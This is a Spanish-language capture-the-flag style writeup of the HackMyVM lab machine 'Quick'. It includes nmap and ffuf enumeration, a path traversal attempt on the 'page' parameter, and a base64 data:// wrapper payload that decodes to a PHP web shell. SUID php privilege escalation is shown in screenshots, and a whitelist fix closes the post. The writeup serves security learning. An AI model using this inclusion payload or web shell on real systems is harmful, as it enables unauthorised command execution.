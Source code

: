 ```yaml
---
title: 'Quick'
date: 2024-02-05T20:04:07-03:00
permalink: /posts/hackmyvm/:title/
categories: ["Writeups", "HackMyVm"]
tags: ['Linux', 'File Inclusion', 'PHP', 'PHP Wrapper', 'SUID']
image:
  path: /assets/img/hmvm/quick/quick-0.png
---
```


¡Hola, hacker! ¡Bienvenido a un nuevo post!

En este artículo, nos adentraremos en la resolución de la máquina [Quick](https://hackmyvm.eu/machines/machine.php?vm=quick) de la plataforma HackMyVM. Comenzaremos aprovechando un parámetro en la URL para obtener acceso al sistema mediante una reverse shell. Este parámetro se emplea para cargar diversas secciones del sitio, pero su validación no está siendo realizada de manera adecuada. Finalmente, nos aprovecharemos de un binario de `php` con permisos SUID para escalar nuestros privilegios.

## Reconocimiento

Comenzamos lanzando una traza ICMP a la máquina objetivo para comprobar que tengamos conectividad.

![Quick](/assets/img/hmvm/quick/quick-1.png)
_Reconocimento usando el comando ping_

Vemos que responde al envío de nuestro paquete, verificando de esta manera que tenemos conectividad. Por otra parte, confirmamos que estamos frente a una máquina Linux basandonos en el TTL (Time To Live).

## Enumeración

### Descubrimiento de puertos abiertos
Realizamos un escaneo con nmap para descubrir que puertos TCP se encuentran abiertos en la máquina víctima.

```bash
nmap -sS -p- --open --min-rate 5000 -Pn -n 20.20.20.12 -vvv -oG scanPorts
```

![Quick](/assets/img/hmvm/quick/quick-2.png)
_Descubrimiento de puertos abiertos_

> ver la [Cheatsheet](/cheatsheet) para más detalle sobre los parámetros utilizados.
{: .prompt-info }

### Enumeración de versión y servicio

Lanzamos una serie de script básicos de enumeración propios de nmap, para conocer la versión y servicio que esta corriendo bajo los puertos abiertos.

```bash
nmap -sCV -p22,80 -vvv -oN targeted 20.20.20.12
```

![Quick](/assets/img/hmvm/quick/quick-3.png)
_Descubrimiento de versión y servicio con nmap_

> ver la [Cheatsheet](/cheatsheet) para más detalle sobre los parámetros utilizados.
{: .prompt-info }

## Explotación

Accedemos al sitio web que se encuentra en ejecución en el puerto 80, donde nos encontramos lo siguiente:

![Quick](/assets/img/hmvm/quick/quick-4.png)
_Web Quick_

![Quick](/assets/img/hmvm/quick/quick-5.png)
_Web Quick_

Podemos notar que las diversas secciones del sitio web se cargan dinámicamente mediante el parámetro `page`. Esto se puede verificar al acceder directamente a alguno de estos archivos.

![Quick](/assets/img/hmvm/quick/quick-7.png)
_Web Quick - parámetro page_

También, podemos verficarlo haciendo un poco de web fuzzing.

```bash
ffuf -fw 219 -c -u 'http://20.20.20.12/index.php?page=FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
```
![Quick](/assets/img/hmvm/quick/quick-6.png)
_Web Fuzzing - parámetro page_

Teniendo en cuenta lo anterior, podemos intentar leer archivos del sistema aplicando *Directory Path Traversal*.

```bash
http://20.20.20.12/index.php?page=../../../../../../../etc/passwd
```

![Quick](/assets/img/hmvm/quick/quick-8.png)
_Web Fuzzing - parámetro page_

Pero vemos que no tenemos éxito.

Si probamos aplicar un wrapper de php, por ejemplo: `php://filter/convert-base64.encode/resource=home` para leer el contenido de los archivos php, vemos que tampoco tenemos suerte. 

![Quick](/assets/img/hmvm/quick/quick-9.png)
_Web Fuzzing - parámetro page_

Al investigar sobre los wrappers en PHP, descubrí una técnica para ejecutar comandos en la máquina víctima mediante el wrapper `data://`.

Referencia: [File Inclusion/Path traversal](https://book.hacktricks.xyz/pentesting-web/file-inclusion#remote-file-inclusion)

```bash
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt
```

Esta línea de código PHP utiliza una URL de datos (data URI) para proporcionar datos directamente en el código PHP sin necesidad de acceder a un archivo externo.

- `data://`: Indica que se trata de una URL de datos.
- `text/plain`: Especifica el tipo MIME de los datos, en este caso, texto plano.
- `;base64`: Indica que los datos están codificados en Base64 para evitar problemas con caracteres especiales.
- `,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt`: Los datos codificados en Base64.

Después de decodificar, esto se traduce como:

```bash
echo 'PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+' | base64 -d;
<?php system($_GET['cmd']);echo 'Shell done !'; ?>>
```

![Quick](/assets/img/hmvm/quick/quick-11.png)
_Web Fuzzing - parámetro page_

![Quick](/assets/img/hmvm/quick/quick-10.png)
_Web Fuzzing - parámetro page_

Ahora que tenemos capacidad de ejecución de comandos, podemos ganar acceso al sistema.

Enviamos una reverse shell a nuestra máquina atancate por el puerto 4444.

![Quick](/assets/img/hmvm/quick/quick-12.png)
_Reverse shell_

Hacemos un tratamiento de la tty para tener una terminal más interactiva:

- `script /dev/null -c bash`
- CTRL + Z
- `stty raw -echo; fg`
- `reset xterm`
- `export TERM=xterm`
- `export SHELL=bash`
- `stty rows <rows> columns <columns>`

Y de esta forma, ya podemos leer el flag de `user.txt`

![Quick](/assets/img/hmvm/quick/quick-13.png)
_user.txt_

## Escalación de privilegios

Al realizar una enumeración del básica del sistema, encontramos que el binario `/usr/bin/php7.0` es SUID.

![Quick](/assets/img/hmvm/quick/quick-14.png)
_SUID /usr/bin/php7.0_

Si hacemos una búsqueda en GTFOBins, nos encontramos con una forma de escalar nuestros privilegios en este contexto [GTFOBins - php](https://gtfobins.github.io/gtfobins/php/#suid).

![Quick](/assets/img/hmvm/quick/quick-15.png)
_GTFOBins - php_

Por lo tanto, procedemos a escalar nuestros privilegios.

![Quick](/assets/img/hmvm/quick/quick-16.png)
_Exploit SUID /usr/bin/php7.0_

Y por ultimo, leemos el flag de `root.txt`

![Quick](/assets/img/hmvm/quick/quick-17.png)
_root.txt_

## Extras

Antes de concluir el post, analizemos la parte del código vulnerable:

Vemos que no existe ninguna validación previa, más alla de forzar la extensión a `.php`.

Para validar este código, podemos hacer algo como lo siguiente:

```php
<?php
// Lista blanca de páginas permitidas
$allowedPages = ['home', 'about', 'contact', 'cars'];

// Si no se proporciona ninguna página, cargar la página predeterminada (home)
$page = isset($_GET['page']) ? $_GET['page'] : 'home';

// Manejar el caso en que la página solicitada no está permitida
if (!in_array($page, $allowedPages)) {
    http_response_code(403);
    die("Error 403: Acceso no permitido a esta página");
}

$filePath = __DIR__ . '/' . $page . '.php';

// Manejar el caso en que el archivo no existe
if (!file_exists($filePath)) {
    http_response_code(404);
    die("Error 404: Página no encontrada");
}

include($filePath);
?>
```
1. Se define una lista blanca de páginas permitidas (`$allowedPages`).
2. Se verifica si la página solicitada está en la lista blanca antes de incluir el archivo.
3. Se construye la ruta completa del archivo para incluir utilizando __DIR__ para obtener el directorio actual del script.
4. Se verifica si el archivo realmente existe antes de incluirlo.

Este enfoque ayuda a mitigar la posibilidad de LFI y brinda un control más estricto sobre las páginas permitidas.

De esta forma, concluimos el Writeup de la máquina Quick.

Espero que los conceptos hayan quedado claros. En caso de tener alguna duda, te invito a realizar nuevamente la máquina para afianzar tus conocimientos.

Gracias por tu lectura!

Happy Hacking!
